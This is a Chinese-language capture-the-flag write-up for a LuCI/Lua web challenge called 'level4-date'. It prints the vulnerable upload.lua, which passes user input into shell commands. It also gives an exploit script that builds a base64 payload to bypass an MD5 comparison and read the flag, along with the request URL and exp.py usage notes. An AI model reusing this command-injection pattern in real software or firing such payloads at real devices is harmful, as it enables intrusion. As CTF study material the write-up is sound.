 # level4-date writeup
## 过程
* 分析下载得到的源码
  * upload.lua 处理参数的 lua 文件
  * base64.lua 提供 base64 加解密函数
  * md5.lua 提供 md5 计算函数
  * json.lua 提供序列化函数
* upload.lua 的处理逻辑是对接收到的参数 code 进行 base64 解密，反序列化后得到一个 date 类的对象。这个对象包含了三个参数，a，b，file。如果 a 和 b 的值不同但是 md5 值相同，则触发 _wakeup 函数，将 file 的内容写入文件中，并将该内容进行正则，把空格换行以及 tab 都替换成空。
  ```lua
        -- base64 解密，反序列化后得到一个 date 类的对象
        json = require "luci.json"
        local base64 = require"luci.base64"
        if code then
            local decoded_code = base64.decode(code)
            local success, obj = pcall(json.decode, decoded_code)
            if success and type(obj) == "table" then
                setmetatable(obj, { __index = date })
                obj:__wakeup()
            else
                http.status(400, "Bad Request")
                http.write(decoded_code)
            end
        else
            http.status(400, "Bad Request")
            http.write("")
        end
      -- 如果 a 和 b 的值不同但是 md5 值相同，则触发 _wakeup 函数
      --
      function date:__wakeup()
        if self.a ~= self.b and md5.sum(self.a) == md5.sum(self.b) then
            local content = self.file
            local uuid = util.exec("echo $RANDOM"):gsub("\n", "") .. ".txt"
            util.exec("echo '" .. content .. "' > " .. uuid)
            local data = util.exec("cat " .. uuid):gsub("%s+", "")
            -- http.write(encoded)
            http.write(util.exec("cat " .. data))
        else
            http.status(400, "Bad Request")
            http.write("")
        end
      end
  ```
* 因此构造一个 code 参数，首先 a，b 可以是不同的数组，在 md5.lua 中的函数对数组无法计算 md5 值而返回 none，可以利用该方法对 md5 值比较进行绕开，file的值为 "\\f\\l\\a\\g"
  ```lua
    json = require "json"
    local base64 = require'base64'
    local date = {
        a = {},
        b = {},
        file = "\\f\\l\\a\\g"
    }
    local function Error(message, code)
        return {
            message = message,
            code = code
        }
    end
    date.a = Error("payload", 1)
    date.b = Error("payload", 2)
    -- 序列化date对象为字符串
    local serialized_str = json.encode(date)
    local encoded = base64.encode( serialized_str )

    -- 输出序列化和编码后的字符串
    print(encoded)
    --eyJhIjp7Im1lc3NhZ2UiOiJwYXlsb2FkIiwiY29kZSI6MX0sImZpbGUiOiJcXGZcXGxcXGFcXGciLCJiIjp7Im1lc3NhZ2UiOiJwYXlsb2FkIiwiY29kZSI6Mn19
  ```
* 通过访问`http://address/cgi-bin/luci/admin/upload/upload/date/eyJhIjp7Im1lc3NhZ2UiOiJwYXlsb2FkIiwiY29kZSI6MX0sImZpbGUiOiJcXGZcXGxcXGFcXGciLCJiIjp7Im1lc3NhZ2UiOiJwYXlsb2FkIiwiY29kZSI6Mn19,得到 flag
* ![flag]()

## exp 利用说明
* 在 serialize 目录下运行 exp.py 即可，确保其余 lua 文件都在同一目录下
* 根据命令行提示，给出对应参数
* 如果你想要自己创造新的 payload
  * 请适当修改 serialize.lua 内的对象内的值，运行该文件得到新的 payload